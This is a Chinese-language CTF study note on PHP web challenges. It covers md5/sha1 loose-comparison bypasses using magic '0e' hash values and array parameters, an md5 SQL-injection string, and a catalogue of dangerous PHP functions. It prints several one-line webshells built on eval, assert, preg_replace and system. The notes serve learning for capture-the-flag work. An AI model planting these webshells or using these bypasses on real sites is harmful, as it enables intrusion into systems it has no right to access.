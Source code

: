 ## 新生第一步，认识md5（five）
例题：
```php
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = [$_POST['password'];](url)
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?> 
```
如例题所示，要求传入的是两个参数，post一个password，get一个name,要求两个东西的参数内容不一样，但是md5的值要一样，看似是不可能的，但是，md5其实早已被前人们给创烂了，md5的对撞已经不是很难完成，但是，这里用的并不是md5的对撞，而是php语言的妙妙小特性：
在md5化之后，如果数据以0e加纯数字结尾，会被直接解析为0，以此达到相等的结果,这里贴出一些值:
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361

这里还有经过两次md5后值还相同的：
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk

自己等于自己md5的：
0e215962017

同理，还有一种加密算法sha1也有这样的问题，这里一并贴出：
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799

还有一种很罕见的
NAN绕过，在处理时发生错误

sql注入相关：
md5后值是万能密码：ffifdyop

还有md5值和sha1相等的参考极客大挑战2024的题

这是第一种打法
那么，主播主播，找特殊值还是太困难了，有没有更简单更强势的打法呢？


有的兄弟，有的，像这么强势的打法不止这一种（bushi


介绍大名鼎鼎的数组绕过：
管他什么name[]=1password[]=2直接秒了，但是以后大概是没有这么顺利的题了


## 二、一些敏感的函数：
eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点
#### eval()
大名鼎鼎，臭名昭著。一句话木马常客一号。
```php
<?php @eval($_POST['shell']);?>
```
#### assert()
同样是很敏感的东西，一句话木马常客二号
```php
<?php assert(@$_POST['shell']); ?>
```
#### preg_replace()
这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马
```php
preg_replace("/test/e",$_GET["shell"],"just test");
```
剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function()  (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system() 
漏洞头头，这里放出一句话木马的形式：
```php
<?php
    system($_GET['cmd']);
?>
```
#### exec() 执行外部程序
```php
<?php 
    echo exec("whoami");
?>
```

#### shell_exec() 通过shell环境执行命令，并将完整的输出以字符串的方式返回
```php
<?php 
    echo shell_exec("whoami");
?>
```

剩下的由于不怎么常用，这里仅做列举
passthru() 执行外部程序并且显示原始输出
```php
<?php 
    passthru("whoami");
?>
```
proc_open() 执行一个命令，并且打开用来输入/输出的文件指针
pcntl_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
反引号，实质上还是调用的shell_exec()函数，在CTF题目里面有的时候会忘记过滤导致直接拿到flag
### 文件包含系
php中包含的函数一共有四个，主要作用为包含并运行指定文件
require() 函数
inclue() 函数
require_once() 函数
include_once() 函数
include()与require_once()主要的区别是：include()在包含的过程中如果出现错误，会抛出一个警告，程序继续运行；而require()函数出现错误时，会直接报错并退出程序的执行
require_once()和include_once()，显然表示的是文件只包含一次的意思，避免函数重定义和变量重新赋值等问题
这些函数通常配和伪协议来实现文件包含漏洞；
### SSRF系
~~没学过还不会，先放着~~
###  XXE系
~~也没学过~~

## 其他：
php的变量名使用字母数字和下滑线构成的，所以会将空格、+、点、[转换为下划线，但是当[提前出现后，后面的点就不会再变成_了


